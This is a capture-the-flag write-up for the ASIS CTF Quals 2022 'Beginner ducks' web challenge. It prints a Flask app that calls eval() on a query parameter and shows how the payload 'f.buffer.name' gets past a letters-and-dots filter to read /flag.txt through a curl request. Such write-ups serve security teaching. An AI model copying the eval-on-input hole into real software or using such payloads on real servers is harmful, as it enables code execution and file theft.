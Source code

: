 ```yaml
---
date: 2022-10-15T00:00:00+01:00
title: ASIS CTF Quals 2022 - Beginner ducks
summary: Writeup for Beginner ducks reversing challenge of ASIS CTF Quals 2022.
categories: ["web"]
difficulty: "easy"
tags: ["RCE", "python", "flask"]
---
```


# Beginner ducks

> Description: Hiiiii, welcome to ASIS CTF. We have ducks. Check them out http://ducks.asisctf.com:8000/. Download source-code from here.

Source code:

```python
#!/usr/bin/env python3
from flask import Flask,request,Response
import random
import re

app = Flask(__name__)
availableDucks = ['duckInABag','duckLookingAtAHacker','duckWithAFreeHugsSign']
indexTemplate = None
flag = None

@app.route('/duck')
def retDuck():
	what = request.args.get('what')
	duckInABag = './images/e146727ce27b9ed172e70d85b2da4736.jpeg'
	duckLookingAtAHacker = './images/591233537c16718427dc3c23429de172.jpeg'
	duckWithAFreeHugsSign = './images/25058ec9ffd96a8bcd4fcb28ef4ca72b.jpeg'

	if(not what or re.search(r'[^A-Za-z\.]',what)):
		return 'what?'

	with open(eval(what),'rb') as f:
		return Response(f.read(), mimetype='image/jpeg')

@app.route("/")
def index():
	return indexTemplate.replace('WHAT',random.choice(availableDucks))

with open('./index.html') as f:
	indexTemplate = f.read() 
with open('/flag.txt') as f:
	flag = f.read()

if(__name__ == '__main__'):
	app.run(port=8000)
```

Our sink here is `eval()`, since it'll execute the python code that we pass to the `?what` parameter and return the result in the response. We can verify the vulnerability by running the code locally and passing to it the variable `duckInABag`, which evaluates to: `'./images/e146727ce27b9ed172e70d85b2da4736.jpeg'`, so code will be:

```python
	with open('./images/e146727ce27b9ed172e70d85b2da4736.jpeg','rb') as f:
		return Response(f.read(), mimetype='image/jpeg')
```

and therefore show us the image.\
There's some input filtering with the regex: `[^A-Za-z\.]`; it will only accept letters and the dot symbol. So how can we read `/flag.txt` if `/` isn't allowed?\
We can try to read the file descriptor properties. i.e: `f.buffer.name` will evaluate to: `/flag.txt`.

```shell
$ curl http://ducks.asisctf.com:8000/duck?what=f.buffer.name
ASIS{run-away-ducks-are-coming-🦆🦆}
```

Flag: `ASIS{run-away-ducks-are-coming-🦆🦆}`